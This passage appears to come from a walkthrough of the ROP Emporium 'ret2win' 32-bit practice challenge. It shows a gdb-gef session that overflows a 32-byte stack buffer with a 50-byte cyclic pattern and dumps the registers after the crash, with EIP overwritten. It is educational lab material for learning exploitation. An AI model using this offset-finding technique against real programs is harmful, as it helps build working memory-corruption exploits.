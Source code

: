 Now that we know what to do, let's attempt to crash the program and see exactly where the crash occurs. I like to use gdb gef for this as it has its own built in `pattern create` and `pattern offset` shown below.

```shell
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
[+] Saved as '$_gef0'
gef➤  run
Starting program: /root/Documents/ropemporium/ret2win/32ret2win/ret2win 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd270  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam"
$ebx   : 0x0       
$ecx   : 0xf7fac89c  →  0x00000000
$edx   : 0xffffd270  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam"
$esp   : 0xffffd2a0  →  0xf7fe006d  →   add BYTE PTR [esi-0x70], ah
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0xf7fab000  →  0x001d9d6c
$edi   : 0xf7fab000  →  0x001d9d6c
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd2a0│+0x0000: 0xf7fe006d  →   add BYTE PTR [esi-0x70], ah  ← $esp
0xffffd2a4│+0x0004: 0xffffd2c0  →  0x00000001
0xffffd2a8│+0x0008: 0x00000000
0xffffd2ac│+0x000c: 0xf7debb41  →  <__libc_start_main+241> add esp, 0x10
0xffffd2b0│+0x0010: 0xf7fab000  →  0x001d9d6c
0xffffd2b4│+0x0014: 0xf7fab000  →  0x001d9d6c
0xffffd2b8│+0x0018: 0x00000000
0xffffd2bc│+0x001c: 0xf7debb41  →  <__libc_start_main+241> add esp, 0x10
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win", stopped, reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```